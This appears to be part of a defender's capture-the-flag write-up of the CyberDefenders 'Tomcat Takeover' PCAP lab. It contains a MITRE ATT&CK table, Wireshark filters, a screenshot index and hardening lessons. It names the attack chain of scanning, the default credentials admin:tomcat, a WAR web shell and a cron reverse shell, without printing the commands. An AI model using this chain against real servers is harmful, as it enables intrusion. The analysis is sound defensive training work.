

---

### 🟢 Baseline / Benign Traffic Observed
Not everything in the capture is malicious — for context:
- `10.0.0.115 → 10.0.0.105` performs a normal **SMB2/NTLMSSP** authentication (`Acct: root`, `Domain: WORKGROUP`) — internal admin activity, unrelated to the external attack.



- `10.0.0.115` also holds two legitimate SSH sessions to `10.0.0.105` (streams 1 & 3) — likely the SOC analyst's own management access, useful as a "known-good" comparison against the attacker's traffic pattern.

---

## 🎯 MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Reconnaissance | Active Scanning | T1595 | Wide TCP port sweep from 14.0.0.120 |
| Discovery | Network Service Discovery | T1046 | Only 22/8009/8080 responded with SYN-ACK |
| Discovery | Software Discovery | T1518 | gobuster enumeration + Tomcat status page leak |
| Credential Access | Unsecured / Default Credentials | T1078 / T1552 | `admin:tomcat` sent via plaintext Basic Auth |
| Execution | Server Software Component: Web Shell | T1505.003 | `JXQOZY.war` → `rzpmxxmm.jsp` |
| Execution | Exploit Public-Facing Application | T1190 | Abuse of Tomcat Manager's legitimate deploy feature |
| Persistence | Scheduled Task/Job: Cron | T1053.003 | Cron entry beaconing every minute |
| Command and Control | Non-Standard Port | T1571 | Plaintext reverse shell over port 443 (not TLS) |
| Privilege Escalation | N/A — Service Misconfiguration | — | Tomcat already running as `root` |

---

## 🔎 Wireshark Filters Used

```text
# Directory enumeration by the attacker
(ip.addr == 14.0.0.120) && (http.request.method == "GET")

# Confirm only 3 open ports via SYN-ACK responses
ip.src == 10.0.0.112 && ip.dst == 14.0.0.120 && tcp.flags == 0x0012

# All POST requests (finds the WAR upload)
http.request.method == "POST"

# Follow specific streams
tcp.stream eq 9446   # gobuster scan
tcp.stream eq 9456   # Tomcat Manager basic-auth session
tcp.stream eq 9460   # WAR upload
tcp.stream eq 9461   # Reverse shell / cron persistence
```

---

## 🖼️ Screenshot Index

| # | Filename | Description |
|---|---|---|
| 1 | `01-lab-overview.png` | CyberDefenders lab page |
| 2 | `02-capture-file-properties.png` | PCAP metadata & hashes |
| 3 | `03-protocol-hierarchy-stats.png` | Protocol breakdown |
| 4 | `04-conversations-ipv4.png` | Top IP conversations |
| 5 | `05-conversations-tcp.png` | Top TCP streams/ports |
| 6 | `06-smb2-ntlm-session-internal-host.png` | Benign internal SMB2/NTLM traffic |
| 7 | `07-portscan-syn-ack-filter.png` | Open-port confirmation via SYN-ACK filter |
| 8 | `08-directory-enum-http-get-filter.png` | Gobuster GET request list |
| 9 | `09-http-stream-gobuster-useragent.png` | gobuster/3.6 User-Agent fingerprint |
| 10 | `10-abuseipdb-attacker-ip-check.png` | AbuseIPDB reputation check |
| 11 | `11-tomcat-manager-basicauth-stream.png` | Captured Basic Auth header |
| 12 | `12-cyberchef-base64-decode-creds.png` | Decoded `admin:tomcat` credentials |
| 13 | `13-http-post-war-upload-filter.png` | WAR upload POST request |
| 14 | `14-http-stream-war-upload-payload.png` | Raw WAR payload + webshell filename |
| 15 | `15-tcp-stream-reverse-shell-cron-persistence.png` | Root shell + cron reverse-shell setup |

---

## ✅ Conclusion & Takeaways

This investigation reconstructs a complete, textbook **web-server takeover** purely from PCAP evidence:

**Scan → Enumerate → Steal default creds → Deploy webshell (RCE) → Confirm root → Persist via cron C2.**

Key lessons for defenders:
- 🔑 **Never leave default credentials** (`admin:tomcat`) on internet-facing management interfaces like Tomcat Manager.
- 🔒 **Restrict `/manager` and `/host-manager`** to trusted management IPs/VPNs only — it should never be reachable from the internet.
- ⚙️ **Never run application servers as root.** This single misconfiguration turned an app-level compromise into full system ownership instantly.
- 📡 **Monitor for WAR/deploy uploads** and unusual `.war` filenames — Manager's deploy feature is a well-known Tomcat RCE vector.
- 🕵️ **Watch for scanning tool fingerprints** in `User-Agent` headers (`gobuster`, `nmap`, `dirbuster`, etc.) as early warning signs.
- ⏰ **Audit cron jobs** regularly — a one-line `crontab` entry was enough to guarantee attacker persistence.

---

*Write-up compiled from Wireshark + CyberChef + AbuseIPDB analysis of `web server.pcap` — CyberDefenders "Tomcat Takeover" Lab. Part of the `02-CyberDefenders-Tomcat` module of my SOC portfolio.*
